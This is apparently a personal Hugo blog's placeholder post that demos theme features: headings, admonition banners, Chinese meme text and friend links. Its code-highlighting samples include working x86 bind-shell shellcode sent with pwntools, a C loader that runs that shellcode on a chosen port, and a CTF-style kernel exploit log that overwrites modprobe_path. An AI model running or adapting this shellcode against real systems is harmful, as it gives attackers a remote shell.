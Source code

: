 # Init New World


# <font color=red>Refreshed by X1do0</font>

prelude of ~~the new theme demo~~ babble

<!--more-->

## Loop free

Cuz it's hard for me, I will find only time will tell I will figure out. 

### lbwnb

waf `waf`

### 「lbwnb」

gang **gang** 


## aka

> asdknas



```python
from pwn import *
sc= b"\x31\xc0\x31\xdb\xb0\x66\xb3\x01\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x56\x89\xe1\xcd\x80\x89\xc6\x31\xc9\xb0\x3f\x89\xf3\xcd\x80\xfe\xc1\x66\x83\xf9\x02\x7e\xf2\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";

io = remote("rookie_s**t", 123)
io.sendline(sc)
io.interactive()
```

```c
#include <stdio.h>
#include <stdlib.h>

unsigned char shellcode[] = \
"\x31\xc0\x31\xdb\xb0\x66\xb3\x01\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x56\x89\xe1\xcd\x80\x89\xc6\x31\xc9\xb0\x3f\x89\xf3\xcd\x80\xfe\xc1\x66\x83\xf9\x02\x7e\xf2\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";

void main(int argc, char *argv[])
{

  /* Default port at 28th and 29th byte index: \x11\x5c */

  // in case no port is provided the default would be used
  if (argc < 2) {
    printf("No port provided, 4444 (0x115c will be used)\n");
  } 
  else
  {

    int port = atoi(argv[1]);
    printf("Binding to %d (0x%x)\n", port, port);

    unsigned int p1 = (port >> 8) & 0xff;
    unsigned int p2 = port & 0xff;
    // printf("%x %x\n", p1, p2);

    shellcode[28] = (unsigned char){p1};
    shellcode[29] = (unsigned char){p2};

    // printf("%x %x", shellcode[28], shellcode[29]);
}

  int (*ret)() = (int(*)())shellcode;

  ret(); 

}

```

```
/ $ /exp
[+] open ko, return 3
[*] try to read from kernel, return 320
[*] kernel base is ffffffff95200000
[*] Reg saved cs = 33, ss = 2b, flags = 206, user_sp = 7ffce5505978
[*] Prepared payload to overwrite modprobe_path
[*] Returned to userland, setting up for fake modprobe
[*] Run unknown file
/tmp/dummy: line 1: ����: not found
[*] Hopefully flag is readable
flag{TEST}
```

## kak

{{< admonition >}}
一个 **注意** 横幅
{{< /admonition >}}

{{< admonition abstract >}}
一个 **摘要** 横幅
{{< /admonition >}}

{{< admonition info >}}
一个 **信息** 横幅
{{< /admonition >}}

{{< admonition tip >}}
一个 **技巧** 横幅
{{< /admonition >}}

{{< admonition success >}}
一个 **成功** 横幅
{{< /admonition >}}

{{< admonition question >}}
一个 **问题** 横幅
{{< /admonition >}}

{{< admonition warning >}}
一个 **警告** 横幅
{{< /admonition >}}

{{< admonition failure >}}
一个 **失败** 横幅
{{< /admonition >}}

{{< admonition danger >}}
一个 **危险** 横幅
{{< /admonition >}}

{{< admonition bug >}}
一个 **Bug** 横幅
{{< /admonition >}}

{{< admonition example >}}
一个 **示例** 横幅
{{< /admonition >}}

{{< admonition quote >}}
一个 **引用** 横幅
{{< /admonition >}}


## 中文测试

别吵别吵别吵，你可能以为我在第一层，实际上我是1145141919810欧洗给欧洗给haoduoyinliugou好想做嘉然小姐的狗歪比巴卜两面包夹芝士看我一个空中劈叉飞龙骑脸怎么输A1高闪来一个秋梨膏异世相遇尽享美味777777若风一指若风一指吼吼吼全给党为你打calllllll李吼那么大声干甚么今生立誓以你为王吾王剑锋所指是我永恒不变的信仰欧拉欧拉木大木大你们有为roselia赌上一切的觉悟吗这一刻我充满了决心小朋友们大家好我是你们的好朋友金坷垃肥料资源不缺乏必须要有faq此生无悔入东方，来世愿为蓝蓝路先有老菊后有天太阳骑士日神仙哈喽大家好欢迎来到籽岷的minecraft游戏世界我从未见过如此厚颜无耻之人乌鸦坐飞机什么是快乐星球贵州和广西相比大家好，我叫张全蛋，我的英文名叫挖掘机技术哪家强，山东技校找烤面筋香香的滴口味你尝过没不如去问问神奇海螺吧欧巴刚弄死他我不是针对你我是说在座的所有人我卢本伟没有开挂基尼太美，林北66CCFF如果我有十点法力水晶我能在河边钓上一整天的杰哥不要awsl来房里有好康的可以教你蓝瘦香菇给力嗷铁子奥利给老铁双击666我爸是李刚两面包夹芝士我的头发乌黑浓乌鱼子乌鱼子乌鱼子乌鱼子绝绝子绝绝子绝绝子绝绝子这位更是重量级

## 友链测试

Thanks for your splendid theme, I mainly edited on [this](https://github.com/dillonzq/LoveIt/blob/master/README.zh-cn.md).

{{< friend name="Dillon" url="https://github.com/dillonzq/" logo="https://avatars0.githubusercontent.com/u/30786232?s=460&u=5fc878f67c869ce6628cf65121b8d73e1733f941&v=4" word="Author of the theme" >}}

Also, Banerya does make a difference by helping me debug my codes from remote devices during my blog migration. I have encontered some confusing problems about tty and woff on my website, which now turns out that my system configuration is to blame. Thanks for your patience, it really helps me a lot.

{{< friend name="Banerya" url="https://github.com/phyhac" logo="https://avatars.githubusercontent.com/u/48408390?v=4" word="Harbin Institute of Technology" >}}

More work needs to be done, currently I'm trying to move all of my blogs hitheto to here. So far so goooood...

{{< admonition warning >}}
施工中...
{{< /admonition >}}
